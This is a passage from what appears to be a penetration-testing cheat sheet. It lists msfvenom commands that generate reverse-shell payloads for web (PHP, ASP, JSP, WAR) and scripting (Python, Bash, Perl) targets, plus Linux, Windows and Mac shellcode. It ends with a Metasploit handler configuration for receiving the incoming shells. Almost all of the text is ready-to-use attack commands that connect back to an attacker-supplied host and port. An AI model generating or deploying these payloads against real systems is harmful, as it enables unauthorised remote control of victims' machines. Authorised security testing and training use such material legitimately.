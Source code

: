     Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:

    `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

    _ASP_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

    _JSP_

    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

    _WAR_

    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

    **Scripting Payloads**

    _Python_

    `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

    _Bash_

    `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

    _Perl_

    `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

    **Shellcode**

    For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

    _Linux Based Shellcode_

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    _Windows Based Shellcode_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    _Mac Based Shellcode_

    `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    **Handlers** Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z
